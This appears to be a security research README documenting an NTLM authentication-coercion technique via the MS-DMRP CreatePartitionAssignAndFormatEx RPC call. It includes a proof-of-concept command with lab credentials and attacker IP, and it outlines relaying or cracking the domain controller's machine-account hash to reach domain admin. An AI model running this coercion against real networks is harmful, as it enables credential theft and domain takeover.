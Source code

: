 # MS-DMRP - Remote call to IVolumeClient::CreatePartitionAssignAndFormatEx (opnum 7)

## Summary

+ **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

+ **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVolumeClient::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient::CreatePartitionAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient::CreatePartitionAssignAndFormatEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreatePartitionAssignAndFormatEx(
   [in] REGION_SPEC partitionSpec,
   [in] wchar_t letter,
   [in] hyper letterLastKnownState,
   [in] int cchAccessPath,
   [in, size_is(cchAccessPath)] wchar_t* AccessPath,
   [in] FILE_SYSTEM_INFO fsSpec,
   [in] boolean quickFormat,
   [in] DWORD dwFlags,
   [out] TASK_INFO* tinfo
 );
```

## References

+ Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

+ Documentation of function `IVolumeClient::CreatePartitionAssignAndFormatEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/652fe47e-655d-417f-a26d-7a21bc7aa6ec